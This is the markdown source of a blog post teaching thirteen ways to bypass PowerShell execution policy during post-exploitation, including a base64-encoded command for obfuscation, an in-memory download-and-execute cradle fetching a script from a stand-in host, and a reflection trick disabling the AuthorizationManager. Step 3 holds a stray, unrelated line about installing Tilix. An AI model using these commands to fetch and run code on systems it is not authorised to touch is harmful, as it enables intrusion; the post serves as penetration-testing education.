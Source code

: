 ```yaml
---
layout: post
title:  "How to Bypass PowerShell Execution Policy"
date:   2020-09-24 20:24:26 -0700
categories: PowerShell Execution Policy
---
```


<h1><b>Intro</b></h1>

PowerShell is an essential component of any Windows environment and can be a powerful tool in the hands of a hacker. During post-exploitation, PowerShell scripts can make privilege escalation and pivoting a breeze, but its execution policy can put a damper on even the best-laid plans. There are a variety of methods, however, that can be used to bypass PowerShell execution policy.

<h1><b>PowerShell Execution Policy Overview</b></h1>
The purpose of PowerShell's execution policy is to control how configuration files are loaded and how scripts are run. It's a safety feature that helps prevent malicious scripts from being executed. Policies can be set at the computer level, user level, and session level on Windows machines. It's important to note that the execution policy is not meant to be secure — it merely prevents users from unintentionally causing damage. As we'll soon find out, it can be bypassed in several ways.

There are seven types of execution policies in PowerShell. These are only enforced on Windows machines:

Unrestricted: This is the default policy for non-Windows machines; it means scripts will be run with a warning.
Restricted: This is the default for Windows machines; it prevents scripts from being run but allows individual commands.
Bypass: This means all scripts can run and there are no warnings.
AllSigned: This requires all scripts and configuration files to be signed by a trusted publisher — even those created on the local machine.
RemoteSigned: This is the default policy on Windows servers; requires a signature only from files downloaded from the internet.
Default: This simply sets the default execution policy.
Undefined: This is when there is no policy set in the current scope. If all scopes are Undefined, the execution policy defaults to Restricted.

To view the current execution policy, issue the following command in PowerShell:


{% highlight ruby %}

Get-ExecutionPolicy

{% endhighlight %}

Now that we've covered the basics, let's get started on some bypasses.


<h1><b>Step 1: Bypass Flag </b></h1>
Perhaps the easiest way to bypass execution policy is to use the Bypass flag. Doing so will run the script with no warnings or prompts.

To do so, open PowerShell and type:

{% highlight ruby %}
PowerShell.exe -ExecutionPolicy Bypass -File .\script.ps1
{% endhighlight %}

<h1><b>Step 2: Unrestricted Flag</b></h1>
Similar to the Bypass flag, we can use the Unrestricted flag to run our script, this time with a warning.

{% highlight ruby %}
PowerShell.exe -ExecutionPolicy Unrestricted -File .\script.ps1
{% endhighlight %}

<h1><b>Step 3: Command Switch</b></h1>
We can use the command switch to issue commands and directly run a script. This will work for simple scripts, but more complex ones will usually have errors.
Tilix is available in Kali's APT repositories and can be installed using the below command.

{% highlight ruby %}

PowerShell -command "Write-Host 'This is a test.'"

{% endhighlight %}


<h1><b>Step 4: Encoded Command Switch</b></h1>
This method is similar to the command switch but encodes the script as a base64 encoded string. This can help avoid parsing errors as well as provide a layer of obfuscation.

{% highlight ruby %}
$command = "Write-Host 'This is a test.'" $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) $encodedCommand = [Convert]::ToBase64String($bytes) powershell.exe -EncodedCommand $encodedCommand
{% endhighlight %}

<h1><b>Step 5: Invoke-Command</b></h1>
The Invoke-Command method is nice in that it can be used to issue commands against remote machines when PowerShell remoting has been enabled.

{% highlight ruby %}
invoke-command -scriptblock {Write-Host "This is a test."}
{% endhighlight %}

<h1><b>Step 6: Invoke-Expression</b></h1>
We can use the Invoke-Expression method to pipe the contents of our script and be executed.

{% highlight ruby %}
Get-Content .\script.ps1 | Invoke-Expression
{% endhighlight %}

<h1><b>Step 7: Download from URL</b></h1>
PowerShell can be used to download a script from the internet, or from an attacker's machine, and then be executed without writing to disk.

{% highlight ruby %}

PowerShell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://example.com/script.ps1')"

{% endhighlight %}

<h1><b>Step 8: Paste</b></h1>
Another method to get around execution policy is to simply copy and paste the script into the interactive console. Again, this is useful for running quick scripts that aren't too complex.

{% highlight ruby %}
Write-Host "This is a test."
{% endhighlight %}

<h1><b>Step 9: Echo & Pipe</b></h1>
We can also echo the contents of our script into PowerShell standard input.

{% highlight ruby %}
Echo Write-Host "This is a test." | PowerShell -noprofile -
{% endhighlight %}

<h1><b>Step 10: Read & Pipe</b></h1>
Similar to the echo method, we can read the contents of our script and pipe it into PowerShell standard input.

{% highlight ruby %}
Get-Content .\script.ps1 | PowerShell -noprofile -
{% endhighlight %}

<h1><b>Step 11: Process Scope</b></h1>
The execution policy can be applied at different levels, including the currently controlled process. We can change the execution policy for the current process.

{% highlight ruby %}
Set-ExecutionPolicy Bypass -Scope Process
{% endhighlight %}

<h1><b>Step 12: Current User Scope</b></h1>
This method is similar to the process scope but changes the execution policy for the current user. This works by modifying a registry key under the hood.

{% highlight ruby %}
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted
{% endhighlight %}

<h1><b>Step 13: Authorization Manager Swap</b></h1>
The final method we'll cover essentially overrides a function in PowerShell. The AuthorizationManager function will be replaced with a null value when our function is called, setting the execution policy for the session to Unrestricted, and allowing our script to run.

{% highlight ruby %}
function Disable-ExecutionPolicy {($ctx = $executioncontext.gettype().getfield("_context","nonpublic,instance").getvalue( $executioncontext)).gettype().getfield("_authorizationManager","nonpublic,instance").setvalue($ctx, (new-object System.Management.Automation.AuthorizationManager "Microsoft.PowerShell"))} Disable-ExecutionPolicy .\script.ps1
{% endhighlight %}
